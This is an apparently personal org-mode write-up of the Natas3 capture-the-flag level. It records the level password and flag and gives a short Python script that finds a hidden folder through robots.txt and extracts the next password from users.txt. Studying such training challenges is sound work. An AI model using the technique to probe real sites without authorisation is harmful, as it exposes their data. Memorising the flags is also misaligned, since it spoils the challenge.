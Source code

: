 :PROPERTIES:
:ID:       2041bd3d-7f8f-48f4-ad64-3a710eafb62d
:END:
#+title: Natas3
* Previous
[[id:b527bf0e-f525-49ce-a63d-af3e68edae94][Natas2]]

* Password
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* Flag
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* Notes

There is a comment in the source html that refers to the robots.txt file.
In that file, the /s3cr3t/ folder is disallwed.
The users.txt file can be found in that folder.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

username = "natas3"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/s3cr3t/users.txt".format(username)

response = requests.get(url, auth=(username, password))

content = response.text
# print(content)

p = re.findall("([a-zA-Z0-9]{32})", content)

print(p.pop())
#+end_src

#+RESULTS:
: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* Next
[[id:d3e3a109-5359-41a3-8199-69555a926ca6][Natas4]]
